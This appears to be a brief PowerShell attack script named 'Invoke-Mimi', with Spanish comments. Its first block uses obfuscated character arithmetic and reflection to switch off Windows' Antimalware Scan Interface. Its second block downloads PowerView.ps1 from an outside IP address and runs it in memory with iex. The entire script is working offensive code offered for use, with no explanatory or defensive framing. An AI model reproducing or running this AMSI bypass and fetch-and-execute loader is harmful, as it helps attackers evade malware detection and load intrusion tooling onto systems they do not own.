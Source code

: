 # Invoke-Mimi

#Evasion de AMSI

$A="5492868772801748688168747280728187173688878280688776828"
$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " " ).GetField([string](38..51|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " ",'NonPublic,Static')."sE`T`VaLUE"(         ${n`ULl},${t`RuE} )

#Ejecucion en memoria
iex(New-Object Net.WebClient).DownloadString('http://172.16.99.38:8000/PowerView.ps1')
